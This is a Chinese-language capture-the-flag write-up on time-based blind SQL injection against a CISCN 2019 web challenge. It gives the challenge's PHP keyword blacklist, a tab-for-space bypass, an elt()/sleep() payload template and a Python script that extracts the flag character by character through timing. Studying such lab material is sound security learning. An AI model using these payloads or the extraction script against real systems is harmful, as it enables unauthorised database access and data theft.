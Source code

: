 ### SQL延时注入学习
这里借助一道ciscn2019华北半决赛的web题（day2web1），学习了一下SQL延时注入。（学习了一下北邮大佬的payload）

题目复现地址：http://web43.buuoj.cn/

北邮的payload:https://www.xd10086.com/posts/7008047528314442902/

#### 解题过程
题目只给了一个输入框，测试发现单引号没过滤，and，union，空格等都过滤了。测试过程很枯燥，干脆直接扔出关键代码。

```php
function safe($sql){
    #过滤的内容
    $blackList = array(' ','||','#','-',';','&','+','or','and','`','"','insert','group','limit','update','delete','*','into','union','load_file','outfile','./');
    foreach($blackList as $blackitem){
        if(stripos($sql,$blackitem)){
            return False;
        }
    }
    return True;
}
#为了凸显主要部分，代码做了删减
mysql_select_db("ctf",$db);
if(safe($id)){
    #只显示一行
    $query = mysql_query("SELECT content from passage WHERE id = ${id} limit 0,1");
    if($query){
        $result = mysql_fetch_array($query);
        if($result){
            echo $result['content'];
        }else{
            echo "Error Occured When Fetch Result.";
        }
    }else{
    	var_dump($query);
    }
}else{
    die("SQL Injection Checked.");
}
```

可以看出，没有过滤括号和select，因此可以使用一些函数，比如sleep。而且尽管过滤了空格，但是没有过滤tab，因此可以使用\t代替空格绕过对空格的过滤。

这里可以借助延时注入来绕过限制得到flag。
##### elt函数介绍
这里将借助elt函数来绕过。elt函数的原型为：

elt(n,str1,str2,str3)

该函数用于选取参数中第n个字符串，如果n是1，则结果是str1。但是如果是0，后面的参数不管是需要执行一个函数，或者直接是一个字符串，都不会执行，直接返回NULL。这个特性非常重要，接下来将借助该函数进行延时注入。下面将给出例子。

表结构

![表结构](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/sql_inject/users_table.png)
正常使用时

![正常使用](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/sql_inject/elt.png)
时间注入

![时间注入](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/sql_inject/timeinject.png)
第一个延时了，第二个直接返回NULL而没有延时。


#### 构造payload
可以构造如下payload
```txt
id=elt(left((select	flag	from	ctf),n)='xxx',sleep(1))
其中n代表选取了几个字符，xxx代表猜到的字符是什么。
```
#### 编写exp
借用了一下北邮大佬的exp，用Python2运行
```python
import requests
import time
url = "http://web43.buuoj.cn/index.php"
flag = ''
while True:
    for i in range(128):
        ss = time.time()
        data = {
            'id':'''ELT(left((select    flag    from    ctf),{})='{}{}',SLEEP(1))'''.format(len(flag)+1,flag, chr(i))
        }
        #print data
        requests.post(url,data=data)
        if time.time()-ss>=0.5:
            flag += chr(i)
            print flag
            break
```
>复现平台没有waf的话直接跑就行，有waf就自己搭一个试试吧。